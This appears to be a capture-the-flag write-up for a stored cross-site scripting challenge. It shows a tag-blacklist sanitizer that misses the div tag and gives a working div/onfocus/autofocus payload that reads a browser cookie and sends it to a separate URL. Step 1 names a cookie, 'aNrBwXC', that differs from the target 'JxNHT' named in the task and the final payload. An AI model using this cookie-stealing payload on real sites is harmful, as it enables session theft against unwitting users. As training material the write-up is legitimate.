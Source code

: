 # Mission 5 ~ cross site scripting


## Goal and instructions

[Game of Apulia](https://web6.chall.necst.it/) is the latest strategic, medieval game set in Puglia, Italy. Developed by Tarantella Tech, it pushes the boundaries of what it means to play videogames in 2024. Coming soon on PC, PS4, PS5, Xbox Series S and X, Nintendo Switch.

To validate your solution, please submit an URL belonging to the domain `web6.chall.necst.it`, which, when opened in a browser:
- retrieves the value of cookie `JxNHT`, which is is already present in the cookie jar of the browser that will visit your URL (the developers were sloppy, and this cookie is not `HTTPOnly`). Pay attention to the fact that there are multiple cookies in the cookie jar: you need to submit only the value of `JxNHT`!
- submits it through a `GET` request to `https://chall.necst.it/challenges/web6/verify/[PERSONA_CODE]/[cookie]`, where `[cookie]` is the value of the cookie `JxNHT`

For example, if `document.cookie` is `JxNHT=th1s1ssupersecret`, your payload must perform a `GET` request to: `https://chall.necst.it/challenges/web6/verify/[PERSONA_CODE]/th1s1ssupersecret`.

If you are encountering issues with your payload, please notice that the administrators' browser is **already logged** in to https://chall.necst.it/, and that it actually needs to be logged in to submit a valid solution. Basically, you are also exploiting an intentional CSRF vulnerability in https://chall.necst.it/!


## Web app structure

The website has a home page, a game explanaition page, a blog page and a contact us page.


## Code overview

Examining the source code, it can be seen that the `sanitize(string)` function cleans a string by verifying that it does not contain blacklisted words.
```php
def sanitize(string):
    # Who the hell says blacklists are bad? Amateurs. Real pros use blacklists.
    # This is to let you know that blacklists are not always bad. They can be useful in some cases.
    # Here, we are using a blacklist to remove any suspicious tags from the input string.
    blacklist = ['fieldset', 'track', 'th', 'legend', 'datalist', 'button', 'details',
                 'tr', 'template', 'meta', 'label', 'noscript', 'header', 'frame', 'table',
                 'audio', 'tfoot', 'optgroup', 'footer', 'dialog', 'body', 'command', 'tbody',
                 'article', 'blockquote', 'confirm', 'link', 'svg', 'output', 'meter', 'applet',
                 'select', 'script', 'canvas', 'caption', 'thead', 'colgroup', 'form',
                 'img', 'image', 'slot', 'main', 'option', 'embed', 'iframe', 'map', 'object', 'summary',
                 'col', 'textarea', 'td', 'aside', 'section', 'address', 'marquee', 'input',
                 'video', 'nav', 'prompt', 'style', 'menu', 'area', 'progress']

    # Create a regex pattern to match any tags or suspicious patterns
    pattern = '|'.join(['<' + word + '.*>' for word in blacklist])

    # Recursively remove any tags or suspicious patterns
    while re.search(pattern, string, re.IGNORECASE):
        string = re.sub(pattern, '', string, flags=re.IGNORECASE)

    # Also blacklist javascript:
    string = re.sub(r'javascript:', 'javascript', string, flags=re.IGNORECASE)

    return string
```

If you read the blacklist carefully, you can see that **div** is one of the HTML tags that are not in the blacklist.
```php
blacklist = ['fieldset', 'track', 'th', 'legend', 'datalist', 'button', 'details',
                 'tr', 'template', 'meta', 'label', 'noscript', 'header', 'frame', 'table',
                 'audio', 'tfoot', 'optgroup', 'footer', 'dialog', 'body', 'command', 'tbody',
                 'article', 'blockquote', 'confirm', 'link', 'svg', 'output', 'meter', 'applet',
                 'select', 'script', 'canvas', 'caption', 'thead', 'colgroup', 'form',
                 'img', 'image', 'slot', 'main', 'option', 'embed', 'iframe', 'map', 'object', 'summary',
                 'col', 'textarea', 'td', 'aside', 'section', 'address', 'marquee', 'input',
                 'video', 'nav', 'prompt', 'style', 'menu', 'area', 'progress']
```


## Solution

To complete the exploit, you need to follow the following steps:

1. Determine how to get the required cookie.
   ```javascript
   document.cookie.split(';').map((c) => c.trim()).filter((c) => c.split('=')[0] == 'aNrBwXC').map((c) => c.split('=')[1])[0]
   ```
2. Determine which HTML attributes it is possible to use in the `div` tag and can be useful for exploitation.
    - `onfocus`
    - `autofocus`
    - `contenteditable`
3. Write the tag with the correct attributes to perform the exploit.
   ```html
   <div contenteditable onfocus="window.location.replace('https://chall.necst.it/challenges/web6/verify/5682/'.concat(document.cookie.split(';').map((c) => c.trim()).filter((c) => c.split('=')[0] == 'JxNHT').map((c) => c.split('=')[1])[0]))" autofocus>
   ```
4. Enter the previously written tag in the comment to be blogged, copy the url and enter it into the verification platform.
   ```https
   https://web6.chall.necst.it/comment/[COMMENT_NUMBER]
   ```
   > **note:** if the comment url is not shown, you need to disable scripts (it is suggested to install an extension to disable scripts such as NoScript)
   
